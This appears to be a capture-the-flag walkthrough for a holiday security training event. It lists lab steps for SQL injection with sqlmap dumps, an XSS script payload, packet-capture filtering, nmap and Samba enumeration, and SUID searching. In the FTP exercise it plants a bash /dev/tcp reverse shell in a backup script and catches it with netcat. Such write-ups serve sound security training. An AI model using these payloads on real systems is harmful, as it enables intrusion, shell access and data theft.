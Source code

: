 ## [Day 5] Web Exploitation: Someone stole Santa's gift list! [SQLi]

1. Find login page. Not `/login` or `/login.php`. Nothing in source. Check hint.
2. Attempt login using Burp Suite browser, find POST in HTTP history and send to Repeater, then save as `panel_login`.
3. `$ sqlmap -r panel_login --batch`
4. Meanwhile, try the obvious SQLi: `santa:' or 1=1 --` → success!
5. Try the same `' or 1=1 --` in the panel → success!
6. Same the gift database POST request (as above) as `gift_db`
7. `$ sqlmap -r gift_db --batch --dump` → success!

## [Day 6] Web Exploitation: Be careful with what you wish on a Christmas night [XSS]

1. Run manual test: Add wish of `<script>alert('xss');</script>`, refresh page, get alert box → XSS
2. Use ZAP Automated Scan as suggested

## [Day 7] Networking: The Grinch Really Did Steal Christmas [pcap]

1. `ICMP` to view pings
2. `http.request.method == GET` to view HTTP GETs
3. `frame contains password` to find the FTP cleartext password
4. Export objects to find the wishlist

## [Day 8] Networking: What's Under the Christmas Tree? [nmap]

1. `$ sudo nmap -A 10.10.27.82 -T4 -v` → success!

## [Day 9] Networking: Anyone can be Santa! [ftp]

1. `$ ftp 10.10.222.6` → anonymous
2. `ftp> ls -la` to view current directory contents
3. `ftp> cd public` then view current directory contents
4. `ftp> get shoppinglist.txt` to download the file, then view it with `$ cat`
5. `ftp> get backup.sh` then edit to include `bash -i >& /dev/tcp/10.4.5.126/4242 0>&1`
6. `$ nc -lvnp 4242` then wait for shell
7. `root@tbfc-ftp-01:~# cat /root/flag.txt` → success!

## [Day 10] Networking: Don't be sElfish! [Samba]

1. `$ enum4linux -a 10.10.122.80` to see what's available
2. `$ smbclient //10.10.122.80/tbfc-santa` to access share (no password)

## [Day 11] Networking: The Rogue Gnome [SUID]

1. `find / -perm -u=s -type f 2>/dev/null`
2. Transfer [LinEnum.sh](http://linenum.sh) and run
